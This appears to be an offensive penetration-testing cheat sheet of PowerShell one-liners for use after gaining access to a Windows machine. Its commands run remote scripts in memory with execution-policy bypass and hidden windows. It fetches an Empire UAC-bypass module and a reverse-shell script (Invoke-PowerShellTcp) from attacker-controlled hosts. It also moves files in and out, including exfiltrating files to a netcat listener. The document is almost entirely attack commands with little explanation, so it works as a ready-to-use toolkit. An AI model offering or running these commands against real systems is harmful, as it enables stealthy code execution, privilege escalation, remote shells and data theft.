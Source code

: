 ## Start up WebServer

## Run script in memory:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE')

#EXAMPLE
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE'))
```
-----------------------------------------------------------------------------------------------------------------------------------------------------
# Download File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

-----------------------------------------------------------------------------------------------------------------------------------------------------
# Upload File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

-----------------------------------------------------------------------------------------------------------------------------------------------------
# If you can't copy over SMB
### On Local Box
```sh
nc -lnvp 443 > Out.File
```
### On Windows Box
```ps
Invoke-RestMethod -Uri http://<LocalIPAddress>:<PORT>/<FILE> -Method Post -InFile <LocalFile>
```
-----------------------------------------------------------------------------------------------------------------------------------------------------

[+] EXTRA
## Upgrade PSH to 64-bit shell
```ps
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
#HIDDEN
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
```
